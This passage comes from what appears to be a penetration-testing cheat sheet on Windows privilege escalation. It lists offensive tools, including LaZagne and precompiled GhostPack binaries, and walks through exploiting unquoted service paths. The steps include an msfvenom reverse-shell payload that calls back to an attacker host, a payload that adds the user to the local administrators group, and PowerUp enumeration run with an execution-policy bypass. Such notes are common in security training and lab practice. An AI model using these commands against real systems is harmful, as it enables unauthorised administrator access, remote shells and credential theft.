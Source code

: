 - [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) is a suite of tools that is used to monitor, manage and troubleshoot the Windows operating system owned by Microsoft. It is really useful for enumeration.
- [Security Update Guide](https://msrc.microsoft.com/update-guide/vulnerability)

#### Pre-compiled binaries. 

It can be useful to have precompiled binaries just ready to run
- [GhostPack-Compiled Binaries - harmj0y](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
- [LaZagne releases](https://github.com/AlessandroZ/LaZagne/releases/)

## Unquoted Service Path Vulnerabilities

### What is it

Abuse of the research methodology of executable of windows. We will try to place an excutable in a location windows will be looking.

### Preresquisites

- We will need write permissions in an executable folder
- Check if the binary path is unquoted, we can check a service using `sc qc name-of-service`
- Check if we have writing rights with our user we can use [accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"` we will have a list of user groups with read and write privs
- Use msfvenom to generate an executable file `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK-MACHINE-IP LPORT=7777 -f exe > executable_name.exe`
- Restart the service `sc start service-name `

### Methodology

- Enumerate with automatic tools or this command: `wmic service get name,displayname,pathname,startmode` (it will list the running services)
- Check if we can write in the folder of the service 

### Enumeration with powerUp

- `powershell -ep bypass`
- `. .\PowerUp.ps1`
- `Invoke-AllChecks`  
![image](https://user-images.githubusercontent.com/96747355/162632057-e45dc167-b88a-4e4d-a989-563eb810cda2.png)  

### Exploitation

- `msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe`
- We place the executable in the folder of the program we wish to abuse
- We start the vulnerable service in our example unquotedsvc `sc start unquotedsvc`
- we should be added as an administrator we can verify this using `net localgroup administrators`

## Runas
